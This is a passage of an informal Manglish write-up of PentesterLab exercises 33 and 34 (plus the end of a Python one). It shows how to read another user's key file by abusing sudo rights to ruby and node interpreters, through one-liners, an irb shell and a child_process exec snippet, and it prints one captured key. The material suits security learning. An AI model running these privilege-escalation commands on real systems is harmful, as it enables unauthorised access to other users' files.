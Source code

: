 ```
>>>os.system('uname')          // linux enn kanikum
>>>os.system('cat /home/victim/key.txt')
```
-->rand namuk call (call from the subprocess module) use chyth chyam
```
>>>from subprocess import call
>>>call(['cat', '/home/victim/key.txt'])
```
-->ith work aakunathenthanal namal victim user vechan ee python run chyikunath ok

# 33 - sudo -l (ruby)
-->lab open chyuka enit ->sudo -l adikuka :
```
User pentesterlab may run the following commands on 5ce9ca82ea31: 
	(victim) /usr/bin/ruby
```
->`sudo -u victim ruby -e 'puts `whoami`'`   adikumbol namuk result victim enn kanikunun
-->so namuk ingane thane key.txt file edukam ie,
->`sudo -u victim ruby -e 'puts `cat /home/victim/key.txt`'`
-->ipol namuk key kitum
-->ini vere reethiyil nokam.nerthe python vech chythapol REPL vechan chythath.so ruby ilum REPL und.so ath invoke chyam
-->`sudo -u victim ruby -e 'require "irb"; IRB.start(__FILE__)'`
```
>>>`id`           //id kanikum
>>>puts `cat /home/victim/key.txt`        //e4c59ad6-4be7-4bb1-934d-4d087084bed0
```
so ingane namuk key kitum.ok

# 34 - sudo -l (node)
-->lab il keruka enit ->sudo -l adikuka :
```
User pentesterlab may run the following commands on 2dd12947e801: 
(victim) /usr/local/bin/node
```
->so ee script aan namal chyunath :
```
'var exec = require("child_process").exec;
exec("cat /home/victim/key.txt", function (error, stdOut, stdErr) {
console.log(stdOut);
});'
```
-->ivide adyam mathrame single qoute idunulu.ullil ulla ellathilum double qoute aan.illengil code break aakum.
-->terminalil chyumbol
```
->sudo -u victim node -e 'var exec = require("child_process").exec;
exec("cat /home/victim/key.txt", function (error, stdOut, stdErr) {
console.log(stdOut);
});'
```
-->ith koduth enter adikuka.apol namuk key kitum ok